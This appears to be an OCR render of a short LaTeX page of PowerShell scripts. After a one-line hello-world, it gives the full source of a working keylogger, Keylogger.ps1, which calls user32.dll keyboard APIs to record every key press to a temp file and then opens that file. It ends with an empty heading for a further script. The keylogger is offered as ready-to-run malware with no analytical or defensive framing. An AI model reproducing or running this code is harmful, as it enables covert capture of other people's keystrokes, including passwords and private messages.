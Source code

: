 \documentclass{article}%
\begin{document}
\subsection{Scripts}
\hypertarget{script1}{\subsubsection{Simple script}}
\begin{verbatim}
Write-Host Hello World! -f red
\end{verbatim}
\hypertarget{script2}{\subsubsection{Keylogger.ps1}}
\begin{verbatim}
function Start-KeyLogger($Path="$env:temp\keylogger.txt")
{
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode,
	byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff,
	  uint wFlags);
'@
  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace
    API -PassThru
  $null = New-Item -Path $Path -ItemType File -Force
  try
  {
    Write-Host 'Recording key presses. Press CTRL+C to see results.'
     -ForegroundColor Red
    while ($true) {
      Start-Sleep -Milliseconds 40
      for ($ascii = 9; $ascii -le 254; $ascii++) {
        $state = $API::GetAsyncKeyState($ascii)
        if ($state -eq -32767) {
          $null = [console]::CapsLock
          $virtualKey = $API::MapVirtualKey($ascii, 3)
          $kbstate = New-Object Byte[] 256
          $checkkbstate = $API::GetKeyboardState($kbstate)
          $mychar = New-Object -TypeName System.Text.StringBuilder
          $success = $API::ToUnicode($ascii, $virtualKey, $kbstate,
              $mychar, $mychar.Capacity, 0)
          if ($success) 
          {
            [System.IO.File]::AppendAllText($Path, $mychar, [
            System.Text.Encoding]::Unicode) 
          }
        }
      }
    }
  }
  finally
  {
    notepad $Path
  }
}
Start-KeyLogger
\end{verbatim}
\hypertarget{script3}{\subsubsection{Invoke-SuperScript.ps1}}
\end{document}
